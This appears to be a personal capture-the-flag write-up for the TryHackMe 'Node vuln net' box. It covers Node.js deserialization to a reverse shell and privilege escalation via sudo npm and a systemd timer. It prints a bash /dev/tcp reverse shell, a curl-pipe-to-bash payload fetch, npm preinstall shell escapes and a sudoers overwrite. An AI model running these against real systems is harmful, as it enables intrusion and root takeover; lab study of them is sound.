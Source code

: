 # 21. Node vuln net 🧭
Names | Details
--------|-----
Source | tryhackme
Level | easy
Os | linux

**Notes :**
node
node express
#other/GAtactics 
#boxtype/hard
#category/addtools
nodejs 
[Reffer here](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
Maintaining a supershell
#other/richResource 


## Gaining Access 😉

- gobuster bruteforce
- cookie found even without we login
- decoded with smart decode
- further enumeration, it has been found that express is vulnerable :unserialised
- usind node revshell generator, from github. generated a reverse shell
- serialised with node rev.js
- used it as cookie, forwarded with burpsuite
- got a reverseshell in listening port



## Maintaining Access 🥷
- sudo -l
- found /usr/bin/npm can be run
- gtfobin and searched /usr/bin/npm
- mkdir /dev/shm/exploit
- executed /exploit as another user: reffer [[#Important commands 🔥]]-> 5
- sudo -l and find [[#Important commands 🔥]]->6
- found Unit=vulnnet-job.service and another file called vulnnet-job.service
- which has GUID permission and serv-manage is the group
- edited job.service [[#Important commands 🔥]]->8
- shell.sh is script for reverse shell in bash
- excute `sudo -u root /bin/systemctl start vulnnet-auto.timer`
- on listened port 2222: we got root

## Important commands 🔥
1. to serialise `node revshell.js`
2. maintain super shell 
	```
	script /dev/null -c bash
	suspend process with cntl z
	stty raw -echo; fg
	reset
	export TERM=xterm-color
	export SHELL=bash
	clear
	
	stty cols 200
	stty rows 50
	```
3. first from gtfobin/npm
	```js
	echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
	```
4. creating package
	```
	echo '{"scripts": {"preinstall": "/bin/sh"}}' > exploit/package.json
	```
5. running exploit as another user
	```js
	sudo -u serv-manage /usr/bin/npm -C /dev/shm/exploit/ --unsafe-perm i
	```
6. find
	```
	find  / -type f -name 'vulnnet-auto.timer' 2>/dev/null
	```
7. bash reversetcp
	```
	bash -i &>/dev/tcp/10.9.229.254/2222 <&1
	```
8. inside job.service
	```
	/bin/bash -c 'curl http://10.9.229.254:8080/shell.sh | bash'
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- serailising 
- gtfobin
- guid permission
- super command
	```
	/bin/sh -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
	```
	this will allow serve-manage to execute all commands as root without root password


--------------------------------
**By Nibras Muhammed** 🤓🖥️






